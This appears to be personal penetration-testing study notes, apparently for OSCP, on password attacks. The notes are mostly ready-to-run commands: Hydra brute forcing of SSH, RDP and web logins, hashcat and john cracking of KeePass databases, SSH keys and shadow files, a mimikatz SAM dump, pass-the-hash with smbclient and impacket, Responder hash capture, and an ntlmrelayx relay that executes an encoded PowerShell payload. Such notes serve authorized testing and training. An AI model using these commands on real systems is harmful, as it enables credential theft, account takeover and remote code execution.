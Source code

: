 # Password spray
## Random Generator
- CeWL (Can base on website info) ``` cewl --lowercase http://192.168.233.61:8081/ | grep -v CeWL  >> custom-wordlist.txt ```

## Hydra
- ssh
- ``` hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201  ```
- rdp
- ``` hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202 ```
- port: add ``` -s ```

- care 302 redirect
- HTTP POST Form
  ``` hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid" ```
- HTTP Base64 POST FORM
  ```
    # -I : ignore any restore files
    # -f : stop when a login is found
    # -L : username list
    # -P : password list
    # ^USER64^ and ^PASS64^ tells hydra to base64-encode the values
    # C=/ tells hydra to establish session cookies at this URL
    # F=403 tells hydra that HTTP 403 means invalid login
    hydra -I -f -L usernames.txt -P passwords.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
  ``` 
- HTTP GET
  ``` hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.152.201 http-get "/index.php" ```


## PDF Crack
- ``` pdfcrack -f Infrastructure.pdf -w /usr/share/wordlists/rockyou.txt ```

## Cracking with Hashcat
- Work w/ mutated password list (rockyou/other list)
- hashcat rule explained: [https://github.com/zh54321/hashcat_rule_gen ](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- writing rule to xx.rule ``` $1 $2 $3 c $!  ``` 
- running crack ``` hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r xx.rule --force  ```
- sometimes use fasttrack.txt too
- ``` c ``` in rule = captilized letter
- ``` u d ``` in rule = upper all char & duplicated once

- Hash mode: https://hashcat.net/wiki/doku.php?id=example_hashes
- Hash type analyzer: https://www.tunnelsup.com/hash-analyzer/ 

## Password manager 
- e.g. keepass
- Find all .kdbx database ``` Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue ```
- translate .kdbx to .hash ``` keepass2john Database.kdbx > keepass.hash ```
- trim unwanted text e.g. $database: 
- using hashcat func w/ keepass lib ``` hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force -n 20``` 

## SSH Passphrase
- DONT GRANT TOO MUCH RIGHTS TO id_rsa | 600 is enough
- can get id_rsa , still need crack paraphase
- using ssh2john
- trim hash e.g. id_rsa:
- ``` hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force ```

**
- possible to dump thru ``` ./50383.sh target.txt /home/alfred/.ssh/id_rsa ```
- For ecdsa ssh-keygen private key name: ``` id_ecdsa ```

## john
- etc/shadow: https://erev0s.com/blog/cracking-etcshadow-john/ 
- ecdsa/rsa(ssh): https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/
- if some pre-defined module not work, use john directly
- ssh to john for john eat ``` ssh2john id_rsa>xx.hash``` (Remember copy Beign --- Private key to --- End private key)
- create new rule to john.conf ``` sudo sh -c 'cat /home/kali/Downloads/ssh.rule >> /etc/john/john.conf'```
- run it ``` john --wordlist=ssh.passwords --rules=sshRules ssh.hash ```
- [EASY] OR without rules ``` john --wordlist=/usr/share/wordlists/rockyou.txt xx.hash ``` 
### No password hashes loaded (see FAQ)
1. ``` john wordlist=xxx --format=crypt unshadow.txt ```

# NTLM v1
- More like high priv users
## Brute force NTLM (Windows) MUST USE POWERSHELL!!!
- Target get from window SAM
- find all users ``` Get-LocalUser ```
- w/ mimikatz (need access)
- check oscp cheat sheet for more commands
- ``` token::elevate ``` esculate to system
- get all token ``` lsadump::sam ``` & find the user + hash ntlm u want to breach
- hashcat: ``` hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force ```

## Non-crack way | Pass NTLM to another service
### SMB server 
- sometimes smb server 1 same passwod = server 2, then it works w/ using same NTLM-hash


### leveragable tools w/ hash
- https://www.hackingarticles.in/remote-code-execution-using-impacket/ 
1. smbclient
   - ``` smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b ```
   - 
2. CrackMapExec
3. impacket_
4. psexec.py (shell with system identity)
5. wmiexec.py (shell with admin identity)
   - rmb add 32 zeros before the hash 
   - ``` impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212 ```

# NTLM v2
- More like unpriv users
## Crack
- ``` net user xxx``` see if can rdp
- ``` sudo responder -I tun0 ``` rogue receiver to dump request from http , smb etc
- ``` dir \\LHOST\test ``` to post hash NTLM
- NTLM v2 Hash crack

## Skill of including filename of smb for HTTP server load uploaded file
- change file name to ``` \\\\LHOST\\share\file.name ```
- Trigger call NTLM hash

## Forwarding the hash instill of crack since too hard
- relay server for NTLM ``` impacket-ntlmrelayx --no-http-server -smb2support -t {target vicim ip} -c "powershell -enc JABjAGwAaQBlAG4AdA..." ```
- use victim A to connect our rogue impacket server by dir \\xx\y
- watch shell if have thing come

